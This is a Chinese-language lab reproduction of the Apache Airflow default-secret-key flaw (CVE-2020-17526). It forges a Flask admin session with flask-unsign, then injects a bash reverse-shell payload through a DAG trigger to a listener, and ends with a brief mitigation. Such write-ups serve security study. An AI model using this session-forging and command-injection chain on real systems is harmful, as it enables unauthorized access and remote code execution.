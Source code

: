 # Apache Airflow 默认密钥导致的权限绕过

## 漏洞编号

CVE-2020-17526



## 漏洞描述

Apache Airflow是python语言编写的一个以编程方式创作，安排和监控工作流程的平台。

除了几个服务器端python脚本之外，它还有一个基于Flask编写的Web应用程序，该Web应用程序使用Flask的无状态签名cookie来存储和管理成功登录的身份验证



在安装过程中，可以使用Airflow命令创建用户，在文档中该用户是具有管理员角色的用户



由于使用默认安全密钥对身份验证信息进行签名，导致配置错误



当用户登录时，会设置一个名为session的cookie，其中包含json格式的用户认证信息



json中名为user_id的密钥标识了登录的用户



在1.10.15 ----2.0.2版本之前，此字符串都设置为temporary_key





## 相关工具

[Paradoxis/Flask-Unsign: Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.](https://github.com/Paradoxis/Flask-Unsign?tab=readme-ov-file)





## 环境配置

vulhub

```
# 初始化数据库
docker-compose run airflow-init
# 启动服务
docker-compose up -d
```

![image-20250409201524634](./assets/image-20250409201524634.png)

![image-20250409201545752](./assets/image-20250409201545752.png)



访问192.168.23.134:8080

![image-20250409201613672](./assets/image-20250409201613672.png)

需要验证身份信息





## 漏洞复现

访问登录页面，服务器会返回一个签名后的cookie

```
curl -v http://192.168.23.134:8080/admin/airflow/login?next=%2Fadmin%2F|grep session
```

![image-20250409202046522](./assets/image-20250409202046522.png)

```
eyJjc3JmX3Rva2VuIjoiZDUzMjg1YzNlN2U4NmZhNjQ2ZDY3MjcwY2U1YzU0MTg5NDJmYmE1MSJ9.Z_ZlNQ.b3yBXnjqb-4_zEIS8_Gn4Cvzs-E
```



使用flask-unsign爆破签名时使用的SECRET_KEY:

```
flask-unsign -u -c eyJjc3JmX3Rva2VuIjoiZDUzMjg1YzNlN2U4NmZhNjQ2ZDY3MjcwY2U1YzU0MTg5NDJmYmE1MSJ9.Z_ZlNQ.b3yBXnjqb-4_zEIS8_Gn4Cvzs-E
```

![image-20250409202203765](./assets/image-20250409202203765.png)

爆破出Key是

```
temporary_key
```



利用获取到的密钥，生成user_id为1的会话

```
flask-unsign -s --secret temporary_key -c "{'user_id':'1','_fresh':False,'_permanent':True}"
```

![image-20250409202523166](./assets/image-20250409202523166.png)



利用得到的session替换掉原有的session

![image-20250409202708470](./assets/image-20250409202708470.png)



刷新界面，成功进入后台

![](./assets/image-20250409202719091.png)



尝试反弹shell

开启example_trigger_target_dag

![image-20250409202757628](./assets/image-20250409202757628.png)



本地开启监听

```
nc -lvp 283
```

![image-20250409202910882](./assets/image-20250409202910882.png)





```
{"message":"'\";bash -i >& /dev/tcp/192.168.23.134/283 0>&1;#"}
```

![image-20250409202916266](./assets/image-20250409202916266.png)

执行



![image-20250409202935795](./assets/image-20250409202935795.png)

成功弹回shell





## 防御措施

- 删除静态字符串

- 添加base64encode(os.urandom(16)).decode('utf-8')以生成随机字符串用于身份验证

  
